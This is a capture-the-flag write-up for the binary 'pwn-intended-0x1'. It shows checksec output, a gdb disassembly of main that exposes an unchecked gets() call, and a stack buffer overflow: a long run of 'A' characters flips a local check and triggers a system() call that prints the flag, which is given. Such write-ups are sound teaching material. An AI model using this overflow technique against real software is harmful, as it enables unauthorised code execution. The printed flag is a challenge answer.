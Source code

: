 # pwn-intended-0x1
## Info

``` bash
$file pwn-intended-0x1

pwn-intended-0x1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1fc0accd801ea951a4ec2f7f8c804e0559ccb1db, for GNU/Linux 3.2.0, not stripped

$ checksec pwn-intended-0x1
[*] /pwn-intended-0x1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Anaylsing binary 

```
gdb-peda$ disass main


   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe5f]        # 0x402024
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0x0
   0x00000000004011ce <+120>:	je     0x4011ed <main+151>
   0x00000000004011d0 <+122>:	lea    rdi,[rip+0xe59]        # 0x402030
   0x00000000004011d7 <+129>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+134>:	lea    rdi,[rip+0xe94]        # 0x402077
   0x00000000004011e3 <+141>:	mov    eax,0x0
   0x00000000004011e8 <+146>:	call   0x401050 <system@plt>
   0x00000000004011ed <+151>:	mov    eax,0x0
   0x00000000004011f2 <+156>:	leave  
   0x00000000004011f3 <+157>:	ret    
```


We can see gets function.so try it by giving some input to fill  stack

gdb-peda$ r 
Starting program: /home/kl4u5/Downloads/pwn-intended-0x1 
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.

process  is executing new program: /bin/dash
[New process]
process  is executing new program: /bin/cat

We can see its a easy bufferoverflow vulnerability.


flag csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}



